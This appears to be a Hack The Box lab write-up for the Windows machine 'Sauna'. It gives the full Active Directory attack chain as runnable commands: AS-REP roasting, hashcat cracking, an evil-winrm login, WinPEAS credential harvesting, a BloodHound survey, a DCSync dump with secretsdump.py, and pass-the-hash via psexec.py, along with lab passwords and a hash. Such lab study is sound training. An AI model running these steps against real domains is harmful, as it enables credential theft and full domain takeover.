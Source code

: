 ```yaml
---
layout: single
title: Sauna - Hack The Box
excerpt: "Sauna is an easy difficulty Windows machine that features Active Directory enumeration and
exploitation. Possible usernames can be derived from employee full names listed on the website.
With these usernames, an ASREPRoasting attack can be performed, which results in hash for an
account that doesn't require Kerberos pre-authentication. This hash can be subjected to an
offline brute force attack, in order to recover the plaintext password for a user that is able to
WinRM to the box. Running WinPEAS reveals that another system user has been configured to
automatically login and it identifies their password. This second user also has Windows remote
management permissions. BloodHound reveals that this user has the DS-Replication-Get-Changes-
All extended right, which allows them to dump password hashes from the Domain Controller in a
DCSync attack. Executing this attack returns the hash of the primary domain administrator, which
can be used with Impacket's psexec.py in order to gain a shell on the box as authority system."
date:  2022-05-22
header:
  teaser: /assets/img/sauna/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - Active Directory
    - DCSync
    - Bloodhound
    - Winpeas
    - ASREP
    - Kerberoasting
    - WinRM
---
```


![](/assets/img/sauna/cover.png)

## Synopsis

Sauna is an easy difficulty Windows machine that features Active Directory enumeration and
exploitation. Possible usernames can be derived from employee full names listed on the website.
With these usernames, an ASREPRoasting attack can be performed, which results in hash for an
account that doesn't require Kerberos pre-authentication. This hash can be subjected to an
offline brute force attack, in order to recover the plaintext password for a user that is able to
WinRM to the box. Running WinPEAS reveals that another system user has been configured to
automatically login and it identifies their password. This second user also has Windows remote
management permissions. BloodHound reveals that this user has the DS-Replication-Get-Changes-
All extended right, which allows them to dump password hashes from the Domain Controller in a
DCSync attack. Executing this attack returns the hash of the primary domain administrator, which
can be used with Impacket's psexec.py in order to gain a shell on the box as
NT_AUTHORITY\SYSTEM .

## Portscan

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-15 06:38:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
```

## Reconaissance

### HTTP
let's added sauna.htb into our hosts

![](/assets/img/sauna/1.png)

in about.html get information about user, this page section has different between `index.html`

![](/assets/img/sauna/2.png)

this box very stright forward for lateral movement, i've done use `feroxbuster` for finding juicy files but not there. 

im gonna make wordlists from about.html, something like below:

```bash
FergusSmith
fsmith
fergusS
ShaunCoins
scoins
Shaunc
HugoBear
Hbear
HugoB
BowieTaylor
Btaylor
bowieTaylor
SophieDriver
Sdriver
SophieD
StevenKerb
Skerb
StevenK
```

then let's use `GetNPUsers.py` from impacket to perform `AS-REP` Roasting for finding Pre-Authentication option enabled with those list, AS-REP Roasting is one of kerebroasting methodology.

```bash
GetNPUsers.py -usersfile users.txt -format hashcat -dc-ip $ip EgotisticalBank/
```

![](/assets/img/sauna/3.png)

as you can see we get NTLM hash, let use `hashcat` with module 18200 for cracking that hash with prompt:

```bash
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt 
```

![](/assets/img/sauna/4.png)

```text
Thestrokes23
```

we able to logged in using `evil-wirm` with prompt:

```bash
evil-winrm -i $ip -u fsmith -p 'Thestrokes23'
```

## Privilege Escalation

during the enumeration process i uploaded `winpeas.exe` into target and the result is we retrieve password for `svc_loanmgr` user.

![](/assets/img/sauna/6.png)

```bash
Moneymakestheworldgoround!
```

for next enumeration, i decide to upload sharphound.exe for gather information against active directory environment. 
execute command below for collect all data

```powershell
./Sharphound.exe -c all
```

![](/assets/img/sauna/7.png)

download that zip file into host, the start `bloodhound`; we're going into Dangerous Right feature for determining rights permission.

![](/assets/img/sauna/10.png)

result from bloodhound

![](/assets/img/sauna/13.png)

get an information like image below

![](/assets/img/sauna/12.png)

we can identify `SID` for user `svc_loanmgr` with prompt:

```powershell
Get-LocalUser -Name svc_loanmgr | Select Name, sid
```

![](/assets/img/sauna/11.png)

which mean this `svc_loanmgr` user has rights permission to perform DCSync attack, in short DCSync attack is Replication Service Remote Protocol (MS-DRSR) to pretend to be a domain controller (DC) in order to get user credentials from another DC. and now we can use `secretdump.py` from impacket for dumping administrator hash with following command:

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!'@10.10.10.175
```

![](/assets/img/sauna/14.png)

now we can pass the hash (PTH) using `psexec` with following command:

```bash
psexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![](/assets/img/sauna/15.png)

## Referencess

```
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
https://shellgeek.com/powershell-get-account-sid/
```